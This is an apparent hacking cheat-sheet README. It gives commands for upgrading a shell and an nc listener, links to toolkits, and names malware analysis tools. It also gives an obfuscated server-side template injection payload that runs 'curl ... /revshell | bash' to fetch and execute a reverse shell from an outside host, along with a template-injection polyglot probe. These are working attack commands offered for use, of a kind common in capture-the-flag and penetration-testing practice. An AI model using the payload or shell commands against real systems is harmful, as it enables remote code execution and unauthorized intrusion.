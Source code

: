 # OG Hacker Tools
This repository contains tools used for various types of hacking, and basic information about their usage.

## Upgrade Shell

### Option 1
``` 
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo; fg
```

### Option 2
```
rlwrap nc -lvnp 9001
stty raw -echo; fg
```

## Static Binaries

https://github.com/andrew-d/static-binaries

## Malware Analysis

PECheck - See info on PEHeader

PETree - See info on PeHeader in a GUI

Cuckoo Sandbox - https://cuckoosandbox.org/ 

REMnux - Distro for analysis of malware

## SSTI - Server Side Template Injection

Example in Python:
```
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("curl 10.8.255.244/revshell | bash")|attr("read")()}}
```

Polyglot:
```
Polyglot: ${{<%[%'"}}%\.
```


## Red Team Toolkit

https://github.com/infosecn1nja/Red-Teaming-Toolkit#Payload%20Development

